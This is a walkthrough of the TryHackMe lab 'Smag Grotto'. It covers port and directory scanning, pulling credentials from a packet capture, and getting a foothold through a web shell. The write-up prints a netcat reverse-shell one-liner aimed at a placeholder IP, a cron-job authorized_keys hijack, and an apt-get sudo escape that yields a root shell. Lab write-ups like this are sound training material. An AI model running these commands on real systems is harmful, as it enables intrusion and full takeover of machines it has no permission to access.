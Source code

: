 # Smag Grotto  
![alt text](https://i.imgur.com/1n5m1aa.png)   
TryHackMe Easy [Room](https://tryhackme.com/room/smaggrotto)

## Nmap Scan
We will discover port 22 and 80 are open.   
```bash
PORT      STATE    SERVICE        REASON      VERSION
22/tcp    open     ssh            syn-ack     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDORe0Df8XvRlc3MvkqhpqAX5/sbUoEiIckKSVOLJVmWb9jOq2r0AfjaYAAZzgH9RThlwbzjGj6r4yBsXrMFB01qemsYBzUkut9Q12P+uly9+SeL6X7CUavLnkcAz0bzkqQpIFLG9HUyu9ysmZqE1Xo6NumtNh3Bf4H1BbS+cRntagn1TreTWJUiT+s7Gr9KEIH7rQUM8jX/eD/zNTKMN9Ib6/TM7TkPxAnOSw5JRfTV/oC8fFGqvjcAMxlhqS44AL/ZziI50OrCX9rMKtjZuvPaW2U31Sr8nUmtd3jnJPjMH2ZRfeRTPybYOblPOZq5lV2Fu4TwF/xOv2OrACLDxj5
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN6hWP9VGah8N9DAM3Kb0OZlIEttMMjf+PXwLWfHf0dz6OtdbrEjblgrck0i7fT95F1qdRJHtBdEu5yg4r6/gkY=
|   256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPWHQ800Vx/X5aGSIDdpkEuKgFDxnjak46F/IsegN2Ju
80/tcp    open     http           syn-ack     Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Smag
```

## Web Enum
- Gobuster 
By running gobuster we will find `/mail` directory
    ```bash
    =====================================================
    Gobuster v2.0.1              OJ Reeves (@TheColonial)
    =====================================================
    [+] Mode         : dir
    [+] Url/Domain   : http://smag.thm/
    [+] Threads      : 10
    [+] Wordlist     : /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
    [+] Status codes : 200,204,301,302,307,403
    [+] Timeout      : 10s
    =====================================================
    2020/07/30 10:18:48 Starting gobuster
    =====================================================
    /mail (Status: 301)
    ```
Going to `/mail` will give us access to a conversation that includes a `.pcap` file.   
- The page
![alt text](https://i.imgur.com/Hf7abh7.png)   

## Wireshark
Taking a good look at the traffic, we can find an HTTP Post request to development.smag.thm/login.php. In the packet, we can see the username and pass in clear text.   
![alt text](https://i.imgur.com/mysFlTm.png)   
with the credential, we can go to `development.smag.thm` and try to get access to `/admin.php`.   


## Getting In
Add development.smag.thm to your `/etc/hosts` and access it through browser.   
- /etc/hosts
    ```bash
    127.0.0.1	localhost
    127.0.1.1	reza-HP-Spectre
    172.16.122.129	hekerendonesa
    10.10.228.117	smag.thm	development.smag.thm < ----
    10.10.70.17	windcorp.thm	fire.windcorp.thm
    172.16.122.130	nugroho-server
    ```
- Acessing `development.smag.thm`   
![alt text](https://i.imgur.com/2rWGPce.png)   
log in with credential we get from the `.pcap` file and we will be redirected to `admin.php`   
![alt text](https://i.imgur.com/3lUPoZp.png)   
Here we have a web shell that will not print out the output of the command, so we can just execute a reverse shell command   
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> <PORT> >/tmp/f`   
And we will have access to the machine as `www-data`   
![alt text](https://i.imgur.com/QDnuKv9.png)

## Getting Access to Jake
- Enum
I tried to use [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) to find Priv Esc vector and found that there is an interesting cronjob.   
    ```bash
    SHELL=/bin/sh
    PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
    
    # m h dom mon dow user	command
    17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
    25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
    47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
    52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
    *  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys <--- We can abuse this
    ```
from that, we know that we can change the content of `/opt/.backups/jake_id_rsa.pub.backup` from jake's public key to our public key.   
After changing that, we can access jake's account with no password.   
![alt text](https://i.imgur.com/WgpnqsN.png)   

## Getting to Root
From the moment i get access to user `jake`, the first thing i tried is to check jake's sudo privilege with the command `sudo -l`.  
And here's what i got 
```bash
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```
So just go to [GTFOBins](https://gtfobins.github.io/) and find `apt-get`   
![alt text](https://i.imgur.com/qd1AJlB.png)   
Just run `sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh` and you will get root shell.   
![alt text](https://i.imgur.com/4dXK1YU.png)

# HAPPY HACKING!!!
